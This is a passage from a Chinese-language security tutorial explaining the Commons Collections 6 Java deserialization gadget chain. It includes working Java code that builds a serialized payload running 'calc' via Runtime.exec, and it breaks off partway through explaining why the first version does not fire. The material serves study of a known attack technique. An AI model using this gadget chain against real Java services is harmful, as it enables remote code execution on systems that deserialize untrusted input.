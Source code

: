 ‍

CC6
===

他是不受JDK版本的限制的

‍

CC6其实就是CC1的`LazyMap`​后半段+前半段是`HashMap`​

‍

链子也很简单 作者从HashMap中发现了如下东西

```java
HashMap#readObject
    TiedMapEntry#hashcode
        LazyMap#get
            InvokerTransformer.transform(就可以调用任意方法执行任意操作)
```

先看`TiedMapEntry`​的构造方法比较简单直接传map跟key即可

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a9f462f93acb81d3fa4feb4812e7671b85214369.png)​

‍

所以简单就可以构造出来，这里先放序列化就可以调用calc的

```java
     Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aa");
        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");

        serialize(map2);
```

为啥呢，从URLDNS链也可以知道 ，`HashMap#put()`​方法也是可以触发`hashcode`​的，所以我们还需要用反射的方式去修改点属性让他反序列化出来也没问题

所以可以先让他put进去的时候是空的，然后put完去序列化的时候通过反射再给他赋值

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-5cf62c707035449a9cc7fe401726d64befa6650c.png)​

但是这里反序列化还是不会执行，为什么呢？通过调试我们发现他在`LazyMap#get()`​方法的时候最后会把key return回去
